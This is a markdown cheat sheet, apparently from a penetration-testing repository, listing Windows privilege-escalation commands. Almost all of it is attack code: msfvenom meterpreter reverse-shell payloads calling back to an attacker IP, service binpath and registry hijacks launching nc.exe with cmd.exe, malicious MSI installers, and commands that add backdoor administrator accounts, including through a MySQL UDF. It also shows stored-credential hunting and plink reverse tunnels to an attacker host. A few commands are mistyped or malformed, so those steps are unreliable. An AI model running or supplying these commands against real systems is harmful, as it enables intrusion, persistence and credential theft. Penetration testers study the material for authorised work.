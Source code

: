 # **Windows Privilige Escalation**
1. **Task Scheduler**
```
	a. tasklist [[/svc]]
	b. tasklist [[/v]]
	c. net start
	d. sc query   #end
	e. schtasks /query /fo LIST 2>nul | findstr TaskName	#end
	f. msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai LHOST=<attackerIP> LPORT=<attackerPort> -f exe -o Payload.exe
	h. upload -f Payload.exe
	i. net start "Task Scheduler"
	j. time - set newtime
	k. at 06:42 /interactive "<Path>\Payload.exe"
	l. Follow - https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/
```
2. **Unquoted Service Path**
```
	a. wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """
	b. icacls "C:\Program Files (x86)\Program Folder"
	c. F = Full Control, CI = Container Inherit, OI = Object Inherit
	d. msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai LHOST=<attackerIp> LPORT=<attackerPort> -f exe -o Payload.exe
	e. cd "../../../Program Files (x86)/Program Folder"
	f. upload -f Payload.exe
	g. shutdown /r /t 0
	h. getuid
	i. Follow - https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/

3. **Vulnerable Services and Files and Folder Permission**

	**a. Insecure Service Permission** -  Search for services that have a binary path (binpath) property which can be modified by non-Admin users - in that case change the binpath to execute a command of your own.
```
		1. Check permission of the file - icalcs <file>
		2. Use accesschk.exe - Sysinternal tool -
			a. accesschk.exe -uwcqv "Authenticated Users" * /accepteula
			b. accesschk.exe -qdws "Authenticated Users" C:\Windows\ /accepteula
			c. accesschk.exe -qdws Users C:\Windows\
			d. accesschk.exe -ucqv <Vulnerable_Service>					#1
			e. SERVICE_ALL_ACCESS means we have full control over modifying the properties of Vulnerable Service.
		3. sc qc <Vulnerable_Service>										#2
		4. sc config <Vulnerable_Service> binpath= "C:\nc.exe -nv 127.0.0.1 <port> -e C:\WINDOWS\System32\cmd.exe"	#3
		5. sc config "Vulnerable Service" binpath= "net user <user> <password>@ [[/add"]]									#or
		6. sc config <Vulnerable_Service> obj= ".\LocalSystem" password= ""	#4	#no need to do if performed #3
		7. sc qc <Vulnerable_Service>	#5
		8. net start <Vulnerable_Service>	#6
		9. Follow - https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/
```
	**b. Insecure Registry Permissions**
```
		1. Use tool - subinacl.exe
		2. subinacl.exe /keyreg "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Vulnerable Service" /display
		3. msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai LHOST=<attackerIp> LPORT=<attackerPort> -f exe -o Payload.exe
		4. upload -f Payload.exe
		5. reg add "HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Services\Vulnerable Service" /t REG_EXPAND_SZ /v ImagePath /d "<Path>\Payload.exe" [[/f]]
		6. shutdown /r /t 0
		7. getuid
		8. reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword"
```
	**c. Insecure File/Folder Permissions**
```
		1. reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated				#1
		4. msfvenom -f msi-nouac -p windows/adduser USER=<user> PASS=<password> -o add_user.msi		#2
		3. msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai LHOST=<attackerIp> LPORT=<attackerPort> -f exe -o Payload.exe	#2
		4. msfvenom -f msi-nouac -p windows/exec cmd="<Path>\Payload.exe" > malicious.msi				#3
		5. upload -f Payload.exe		#4
		6. upload -f malicious.msi	#5
		7. Setup listner				#6
		8. msiexec /quiet /qn /i malicious.msi	#7
		9. /quiet = Suppress any messages to the user during installation, /qn = No GUI, /i = Regular (vs. administrative) installation
		10. use exploit/windows/local/always_install_elevated			#metasploit
		11. Follow - https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/
		12. icacls "C:\Program Files\*" 2>nul | findstr "(F)" | findstr "Everyone"		#1#full
		13. icacls "C:\Program Files (x86)\*" 2>nul | findstr "(F)" | findstr "Everyone"	#2#full
		14. icacls "C:\Program Files\*" 2>nul | findstr "(F)" | findstr "BUILTIN\Users"	#3#full
		15. icacls "C:\Program Files (x86)\*" 2>nul | findstr "(F)" | findstr "BUILTIN\Users" 	#4#full
		16. icacls "C:\Program Files\*" 2>nul | findstr "(M)" | findstr "Everyone"	#1#modify
		17. icacls "C:\Program Files (x86)\*" 2>nul | findstr "(M)" | findstr "Everyone"	#2#modify
		18. icacls "C:\Program Files\*" 2>nul | findstr "(M)" | findstr "BUILTIN\Users" 	#3#modify
		19. icacls "C:\Program Files (x86)\*" 2>nul | findstr "(M)" | findstr "BUILTIN\Users"	#4#modify
```
4. **Add user**
```
	a. net user hacker hacker /add
	b. net localgroup administrators hacker /add
```
5. **Check Firewall**
```
	a. netsh firewall show state
	b. netsh firewall show config
	c. netsh advfirewall firewall show rule name=all
	d. netsh advfirewall export "firewall.txt"
```
6. **Running Process as Administrator**
```
	a. ps aux
	**MySQL**
	b. USE mysql;
	c. CREATE TABLE npn(line blob);
	d. INSERT INTO npn values(load_file('<Path>/lib_mysqludf_sys.dll'));
	e. SELECT * FROM mysql.npn INTO DUMPFILE '<Path>/lib_mysqludf_sys_32.dll';
	f. CREATE FUNCTION sys_exec RETURNS integer SONAME 'lib_mysqludf_sys_32.dll';
	g. SELECT sys_exec("net user npn npn12345678 /add");
	h. SELECT sys_exec("net localgroup Administrators npn [[/add");]]
	i. Follow - https://www.adampalmer.me/iodigitalsec/2013/08/13/mysql-root-to-system-root-with-udf-for-windows-and-linux/
```
7. **DLL Hijacking**
```
	a. ps
	b. search -f Vulnerable.exe
	c. download Vulnerable.exe
	d. Follow - https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/
```
8. **Stored Credentials**
```
	a. dir c:\*vnc.ini /s /b /c
	b. dir c:\*ultravnc.ini /s /b /c
	c. dir c:\ /s /b /c | fin dstr /si *vnc.ini
	d. findstr /si password *.txt | *.xml | *.ini
	e. findstr /si pass *.txt | *.xml | *.ini
```
9. **Kernel Exploits**
```
	a. systeminfo
	b. wmic qfe get Caption,Description,HotFixID,InstalledOn
```
10. **Port Forwarding**
```
	a. Upload plink.exe to target.
	b. Start SSH on your attacking machine.
	c. plink.exe -l root -pw password -R 445:127.0.0.1:445 YOURIPADDRESS
	d. ssh -l root -pw password -R 445:127.0.0.1:445 YOURIPADDRESS
```
11. **Metasploit - Post exploitation**
```
	a. post/windows/gather/enum_patches
	b. post/multi/recon/local_exploit_suggester
	c. https://www.hackingarticles.in/window-privilege-escalation-via-automated-script/
```
